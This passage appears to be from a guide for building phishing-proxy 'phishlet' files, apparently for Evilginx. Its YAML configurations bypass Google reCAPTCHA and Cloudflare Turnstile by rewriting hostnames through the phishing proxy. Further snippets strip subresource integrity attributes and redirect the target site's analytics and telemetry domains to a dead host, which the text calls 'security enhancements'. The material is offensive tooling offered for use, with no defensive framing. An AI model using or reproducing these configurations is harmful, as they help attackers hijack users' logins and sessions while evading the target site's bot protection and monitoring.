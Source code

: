 ### **Google reCAPTCHA Bypass (Method 2)**
Add to your phishlet file:
```yaml
proxy_hosts:
  - {phish_sub: 'google', orig_sub: 'www', domain: 'google.com', session: true, is_landing: false, auto_filter: true}
  - {phish_sub: 'gstatic', orig_sub: 'www', domain: 'gstatic.com', session: true, is_landing: false, auto_filter: true}

sub_filters:
  - {triggers_on: 'www.google.com', orig_sub: 'www', domain: 'google.com', search: "integrity[ \t]*=[ \t]*[\"']sha384-.{64}[\"']", replace: 'integrity=""', mimes: ['text/javascript']}
  - {triggers_on: 'www.gstatic.com', orig_sub: 'accounts', domain: 'yourtargetdomain.com', search: "\\(window.location.href\\)", replace: '(window.location.href.replace("{hostname}", "{orig_hostname}"))', mimes: ['text/javascript']}
```

### **Cloudflare Turnstile Bypass**
Add to your phishlet file:
```yaml
proxy_hosts:
  - {phish_sub: 'challenges', orig_sub: 'challenges', domain: 'cloudflare.com', session: true, is_landing: false, auto_filter: false}

sub_filters:
  - {triggers_on: 'challenges.cloudflare.com', orig_sub: '', domain: 'yourtargetdomain.com', search: 'window.location.hostname', replace: 'window.location.hostname.replace("{hostname}", "{orig_hostname}")', mimes: ['application/javascript']}
```

---

## 🔧 **Advanced Security Enhancements**

### **Block Telemetry/Analytics**
```yaml
sub_filters:
  - {triggers_on: 'yourtargetdomain.com', orig_sub: 'analytics', domain: 'yourtargetdomain.com', search: 'analytics\.yourtargetdomain\.com', replace: 'blocked.localhost', mimes: ['text/html', 'text/javascript']}
  - {triggers_on: 'yourtargetdomain.com', orig_sub: 'telemetry', domain: 'yourtargetdomain.com', search: 'telemetry\.yourtargetdomain\.com', replace: 'blocked.localhost', mimes: ['text/html', 'text/javascript']}
```

### **Remove Integrity Checks**
```yaml
sub_filters:
  - {triggers_on: 'yourtargetdomain.com', orig_sub: '', domain: 'yourtargetdomain.com', search: 'integrity="[^"]*"', replace: '', mimes: ['text/html']}
```
